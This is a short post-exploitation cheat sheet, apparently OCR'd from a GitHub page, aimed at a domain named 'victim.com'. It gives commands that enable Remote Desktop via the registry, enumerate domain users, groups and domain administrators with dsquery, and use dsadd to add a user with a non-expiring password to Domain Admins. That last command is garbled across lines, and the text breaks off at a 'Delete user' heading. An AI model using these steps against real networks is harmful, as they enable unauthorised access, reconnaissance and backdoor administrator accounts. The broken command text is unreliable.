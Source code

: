 ### Activation of Remote Desktop

```text
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

## Get Windows information with dsquery

### List of domain users

```text
dsquery user -limit 0
```

### List of domain groups domain=victim.com

```text
dsquery group "cn=users, dc=victim, dc=com"
```

### List of domain administrators

```text
dsquery group -name "domain admins" | dsget group -members -expand
```


### List of user groups

```text
dsquery user -name bob | dsget user -memberof -expand
```

### Get the entered user id

```text
dsquery user -name bob | dsget user -samid
```

### List of users who have not been active in the last two weeks

```text
dsquery user - inactive 2
```

### Add user

```text
dsadd user "CN=Bob,CN=Users,DC=victim,DC=com" -samid bob -pwd bobpassdisplaj
"Bob" -pwdneverexpires yes -memberof "CN=Domain
Admins,CN=Users,DC=victim,DC=com
```

### Delete user
